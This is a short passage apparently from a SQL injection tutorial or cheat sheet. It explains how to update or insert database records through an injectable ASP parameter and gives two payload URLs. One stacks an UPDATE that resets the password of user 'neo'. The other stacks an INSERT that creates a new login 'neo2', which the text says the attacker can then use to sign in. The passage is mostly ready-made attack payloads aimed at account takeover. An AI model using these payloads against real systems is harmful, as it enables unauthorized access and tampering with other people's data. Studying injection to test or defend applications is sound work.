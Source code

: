 #### 10. How to update/insert data into the database by SQL Injection?
When we successfully gather all column name of a table, it is possible for us to UPDATE or even INSERT a new record in the table. For example, to change password for "neo": 
```sql
http://duck/index.asp?id=10; UPDATE 'admin_login' SET 'password' = 'newpas5' WHERE login_name='neo'--
```
To `INSERT` a new record into the database: 
```sql
http://duck/index.asp?id=10; INSERT INTO 'admin_login' ('login_id', 'login_name', 'password', 'details') VALUES (666,'neo2','newpas5',&#39;NA')--
```
We can now login as `"neo2"` with the password of `"newpas5"`.

---
